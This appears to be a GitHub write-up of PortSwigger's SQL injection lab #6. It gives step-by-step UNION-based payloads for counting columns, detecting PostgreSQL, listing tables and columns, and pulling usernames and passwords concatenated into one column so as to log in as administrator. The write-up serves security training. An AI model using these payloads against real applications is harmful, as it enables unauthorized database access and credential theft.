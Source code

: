 # PortSwigger SQLi Lab #6 Write-Up

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

<br>

<br>

### **1. Determine the number of columns and data types returned from a query.**
Since it seems as if there are two columns, try to kill two birds with one stone. If there is a 200 status code, this means the first column is a string while there are two columns. It is known that only one column will be a string from the prompt of the lab.

```SQL
' UNION select 'a', NULL--
```
500 Internal Server Error
```SQL
' UNION select NULL, 'a'--
```
200 OK


<br>

> **Number of columns = 2**

> **Data types = unknown, string**

<br>

### **2. Determine the type/version of the database.**

<br>

Use the following portswigger cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

Microsoft Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, @@version--
```
500 Internal Server Error, it is not a microsoft database.

PostgreSQL Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, version()--
```
200 OK; it is a postgreSQL database.


``` HTML
<th>PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

### **3. Find the table names of the PostgresSQL databse.**

Using the cheatsheet:
```SQL
SELECT * FROM information_schema.tables
```
The correct way to specific table names in PostgreSQL is 'table_name'.

```SQL
' UNION SELECT NULL, table_name FROM information_schema.tables--
```
In the 200 response, the table 'users' can be find which likely has information of the usernames and passwords.

> **Table Name = 'users'**

<br>

### **4. Now find the column names of the 'users' table.**

From the cheat sheet:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

The payload:
```SQL
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users'--
```
The two columns 'username' and 'password' can be found in the response.

> **Column Names = username, password**

<br>

### **5. Now that the column names and table names is known, retreive multiple values in a single column.**

<br>

To retrevie multiple values in a single column use a the double verticle bars. 
This operator will separate each output in the same column by the listed characters.

```SQL
' UNION SELECT NULL, username||'~'||password FROM users--
```
In the 200 response, the following can be found:
```HTML
<th>
    administrator~cldx3xkz6lkikrst58su
</th>
```
> **Username = administrator**

> **Password = cldx3xkz6lkikrst58su**

<br>

### **6. Return to the website and login as the administrator.**

<br> 

### Congratulations! The lab has been completed!

